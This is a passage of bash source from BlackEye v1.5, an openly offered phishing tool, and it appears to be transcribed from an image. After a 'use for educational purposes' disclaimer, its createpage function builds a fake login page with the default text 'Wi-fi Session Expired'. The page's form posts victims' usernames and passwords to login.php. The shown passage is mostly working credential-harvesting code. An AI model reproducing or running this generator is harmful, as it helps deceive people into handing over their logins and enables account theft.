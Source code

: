 
}

banner() {


printf "     \e[101m\e[1;77m:: Disclaimer: Developers assume no liability and are not    ::\e[0m\n"
printf "     \e[101m\e[1;77m:: responsible for any misuse or damage caused by BlackEye.  ::\e[0m\n"
printf "     \e[101m\e[1;77m:: Only use for educational purporses!!                      ::\e[0m\n"
printf "\n"
printf "     \e[101m\e[1;77m::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::\e[0m\n"
printf "\n"
}

createpage() {
default_cap1="Wi-fi Session Expired"
default_cap2="Please login again."
default_user_text="Username:"
default_pass_text="Password:"
default_sub_text="Log-In"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 1 (Default: Wi-fi Session Expired): \e[0m' cap1
cap1="${cap1:-${default_cap1}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 2 (Default: Please login again.): \e[0m' cap2
cap2="${cap2:-${default_cap2}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Username field (Default: Username:): \e[0m' user_text
user_text="${user_text:-${default_user_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Password field (Default: Password:): \e[0m' pass_text
pass_text="${pass_text:-${default_pass_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Submit field (Default: Log-In): \e[0m' sub_text
sub_text="${sub_text:-${default_sub_text}}"

echo "<!DOCTYPE html>" > sites/create/login.html
echo "<html>" >> sites/create/login.html
echo "<body bgcolor=\"gray\" text=\"white\">" >> sites/create/login.html
IFS=$'\n'
printf '<center><h2> %s <br><br> %s </h2></center><center>\n' $cap1 $cap2 >> sites/create/login.html
IFS=$'\n'
printf '<form method="POST" action="login.php"><label>%s </label>\n' $user_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="text" name="username" length=64>\n' >> sites/create/login.html
IFS=$'\n'
printf '<br><label>%s: </label>' $pass_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="password" name="password" length=64><br><br>\n' >> sites/create/login.html
IFS=$'\n'
printf '<input value="%s" type="submit"></form>\n' $sub_text >> sites/create/login.html
printf '</center>' >> sites/create/login.html
printf '<body>\n' >> sites/create/login.html
printf '</html>\n' >> sites/create/login.html

